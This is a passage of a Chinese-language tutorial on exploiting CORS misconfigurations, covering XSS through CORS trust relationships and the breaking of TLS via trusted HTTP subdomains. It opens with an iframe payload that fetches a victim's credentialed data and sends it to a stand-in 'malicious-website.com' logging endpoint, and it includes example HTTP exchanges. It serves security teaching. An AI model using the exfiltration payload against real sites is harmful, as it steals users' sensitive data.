 ```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

### 4. 通过 CORS 信任关系 利用 XSS

即使是“正确”配置的 CORS 也会在两个来源之间建立信任关系。如果网站信任易受跨站点脚本 ( [XSS](https://portswigger.net/web-security/cross-site-scripting) ) 攻击的来源，则攻击者可以利用 XSS 注入一些使用 CORS 的 JavaScript 从信任易受攻击的应用程序的站点检索敏感信息。

鉴于以下要求:

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

如果服务器响应：

```http
TTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

然后发现 XSS 漏洞的攻击者`subdomain.vulnerable-website.com`可以使用它来检索 API 密钥，使用如下 URL

```xml
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

### 5. 使用配置不当的 CORS 破坏 TLS

假设一个严格使用 HTTPS 的应用程序也将一个使用纯 HTTP 的受信任子域列入白名单。例如，当应用程序收到以下请求时：

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

应用程序响应：

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
